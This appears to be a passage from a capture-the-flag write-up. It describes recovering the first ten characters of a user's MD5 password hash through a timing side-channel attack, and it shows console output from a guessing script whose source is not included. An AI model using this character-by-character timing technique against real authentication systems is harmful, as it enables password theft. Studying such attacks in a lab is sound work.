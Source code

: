 I took some time, but finally I was able to find 10 first characters in MD5 hash of ~~FLAG~~'s user password - and when I've sent it I've got the flag (sample try after three signs (667) - script shows 4th sign, which is 'e' - timing is ~0.3s more than average, then one of the final try with 667e217666 as the beginning, when times were not changing anymore):

```

$ ./pass_time_check.py 667

sending payload with password: 667a----------------------------
time for a - 1.206054
sending payload with password: 667b----------------------------
time for b - 1.1628
sending payload with password: 667c----------------------------
time for c - 1.123849
sending payload with password: 667d----------------------------
time for d - 1.123673
sending payload with password: 667e----------------------------
time for e - 1.533342
sending payload with password: 667f----------------------------
time for f - 1.123596
sending payload with password: 6670----------------------------
time for 0 - 1.12424
sending payload with password: 6671----------------------------
time for 1 - 1.139995
sending payload with password: 6672----------------------------
time for 2 - 1.209023
sending payload with password: 6673----------------------------
time for 3 - 1.122856
sending payload with password: 6674----------------------------
time for 4 - 1.123731
sending payload with password: 6675----------------------------
time for 5 - 1.124603
sending payload with password: 6676----------------------------
time for 6 - 1.122691
sending payload with password: 6677----------------------------
time for 7 - 1.12402
sending payload with password: 6678----------------------------
time for 8 - 1.123192
sending payload with password: 6679----------------------------
time for 9 - 1.1241



$ ./pass_time_check.py 667e217666

sending payload with password: 667e217666a---------------------
time for a - 3.317382
sending payload with password: 667e217666b---------------------
time for b - 3.274132
sending payload with password: 667e217666c---------------------
time for c - 3.376334
sending payload with password: 667e217666d---------------------
time for d - 3.273846
sending payload with password: 667e217666e---------------------
time for e - 3.274608
sending payload with password: 667e217666f---------------------
time for f - 3.27328
sending payload with password: 667e2176660---------------------
time for 0 - 3.213485
sending payload with password: 667e2176661---------------------
time for 1 - 3.234123
sending payload with password: 667e2176662---------------------
time for 2 - 3.272356
```